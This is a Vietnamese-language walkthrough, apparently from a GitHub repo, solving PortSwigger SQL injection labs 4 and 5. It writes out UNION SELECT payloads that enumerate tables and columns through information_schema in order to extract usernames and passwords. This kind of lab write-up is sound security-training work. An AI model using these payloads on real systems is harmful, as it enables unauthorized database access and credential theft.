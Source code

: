 => vì ta check dần thông tin về database version trên portswigger cheat sheet

![image](https://github.com/neo-M3tinez/Portswigger/assets/174318737/01f1c317-2574-4514-ba7b-cc72e721c435)

=> solve lab 4


# Lab 5: SQL injection attack, listing the database contents on non-Oracle databases

>  This lab contains a SQL injection vulnerability in the product category filter. The results from the query are returned in the application's response so you can use a UNION attack to retrieve data from other tables.

> The application has a login function, and the database contains a table that holds usernames and passwords. You need to determine the name of this table and the columns it contains, then retrieve the contents of the table to obtain the username and password of all users.

> To solve the lab, log in as the administrator user.

+ step 1: Recon

 - check quote ' xem có lỗ hổng không và => có

 - check thông tin số cột dùng order by => 'order by 3 -- => lỗi => 2 cột

   ![image](https://github.com/neo-M3tinez/Portswigger/assets/174318737/8e6ff1fd-08df-4cdb-912c-40bf1fa20284)

- check version của sql => PostgreSQL

      'union select null , version() --

  ![image](https://github.com/neo-M3tinez/Portswigger/assets/174318737/64735103-37c5-4e7e-b217-7c580598c888)

+ step 2: Exploit

- dựa vào cheat sheet ta sẽ exploit content của dbms postgreSQL ta có thông tin về cột của dbms đó là 2

=> payload : 

      'UNION SELECT null, table_name FROM information_schema.tables --
      
      'UNION SELECT null, column_name FROM information_schema.columns WHERE table_name = 'users_whkkxc' --

- information_schema: là một schema (bảng tham chiếu hệ thống) mặc định có sẵn trong hầu hết các hệ quản trị cơ sở dữ liệu (như MySQL, PostgreSQL, SQL Server) để lưu trữ các thông tin về cơ sở dữ liệu, bao gồm cả tên các bảng.

=> chứa gồm nhiều bảng 

![image](https://github.com/neo-M3tinez/Portswigger/assets/174318737/aff51f6e-4db5-4932-ae12-712842a8656c)

=> thông tin về : table_name = 'users_whkkxc'

![image](https://github.com/neo-M3tinez/Portswigger/assets/174318737/c23e27b8-abba-4a6f-8610-8aa406912a51)
